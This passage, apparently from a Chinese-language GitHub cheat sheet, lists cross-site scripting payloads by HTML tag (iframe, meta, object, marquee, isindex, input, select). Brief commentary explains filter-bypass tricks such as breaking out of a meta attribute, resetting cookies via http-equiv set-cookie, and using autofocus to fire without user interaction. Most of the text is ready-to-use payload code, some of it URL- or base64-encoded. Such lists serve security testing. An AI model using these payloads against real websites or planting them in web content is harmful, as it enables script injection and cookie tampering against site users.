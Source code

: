   ```html
   <IFRAME SRC="javascript:alert(1);"></IFRAME> 
   ```

   ```Html
   <iframe/onload=alert(1)></iframe>
   ```

10. meta标签

  测试时发现昵称，文章标题跑到meta标签中，那么只需要跳出当前属性再添加`http-equiv="refresh"`，就可以构造一个有效地xss payload。还有一些猥琐的思路，就是通过给`http-equiv`设置`set-cookie`，进一步重新设置cookie来干一些猥琐的事情。

  ```Html
  <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
  ```

  ```html
  <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
  ```

11. object标签

    和a标签的href属性的玩法是一样的，优点是无需交互。

    ```Html
    <object data=data:text/html;base64,PHNjcmlwdD5hbGVydCgiS0NGIik8L3NjcmlwdD4=></object>
    ```

12. marquee标签

    ```Html
    <marquee onstart="alert('1')"></marquee>
    ```

13. isindex标签

    在一些只针对属性做了过滤的webapp中，action很有可能是漏网之鱼。

    ```html
    <isindex type=image src=1 onerror=alert(1)> 
    ```

    ```html
    <isindex action=javascript:alert(1) type=image>
    ```

14. input标签

    通过event来调用js。和button一样通过autofocus可以达到无需交互即可弹窗的效果。

    ```html
    <input onfocus=javascript:alert(1) autofocus> 

    <input onblur=javascript:alert(1) autofocus><input autofocus>
    ```

15. select标签

    ```Html
    <select onfocus=javascript:alert(1) autofocus>
    ```
